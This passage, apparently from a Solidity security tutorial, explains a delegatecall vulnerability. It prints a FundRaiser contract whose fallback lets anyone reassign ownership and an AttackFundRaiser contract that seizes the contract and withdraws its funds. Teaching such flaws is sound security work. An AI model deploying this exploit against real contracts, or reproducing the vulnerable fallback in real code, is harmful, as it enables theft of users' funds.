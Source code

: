 ```solidity title=/contracts/delegatecall/FundRaiser.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/delegatecall/FundRaiser.sol

    modifier onlyOwner() {
        require(msg.sender == owner);
        _;
    }

    fallback() external payable {
        // highlight-next-line
        address(ownerService).delegatecall(msg.data);
    }
}
```

So the `Owner` would embed the context into the `FundRaiser` smart contract once the attacker executes the `fallback()` function, which calls the `setOwner`. Afterward, it's possible to call the `withdraw`, and the `onlyOwner` modifier would look to the new value of `owner`.

Let's consider the following example of the `Attack` smart contract that would attempt to acquire the `FundRaiser` funds:

```solidity title=/contracts/delegatecall/AttackFundRaiser.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/delegatecall/AttackFundRaiser.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IFundRaiser {
    function withdraw() external;

    function setOwner() external;
}

contract AttackFundRaiser {
    address public fundRaiser;
    event EtherReceived(uint256 value);

    constructor(address _fundRaiser) {
        fundRaiser = _fundRaiser;
    }

    function withdraw() public {
        IFundRaiser(fundRaiser).withdraw();
    }

    function attack() public {
        // TIP: Another way to call `fundRaiser.call(abi.encodeWithSignature("setOwner()"));`
        // highlight-next-line
        IFundRaiser(fundRaiser).setOwner();
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }

    fallback() external payable {
        emit EtherReceived(msg.value);
    }
}

```
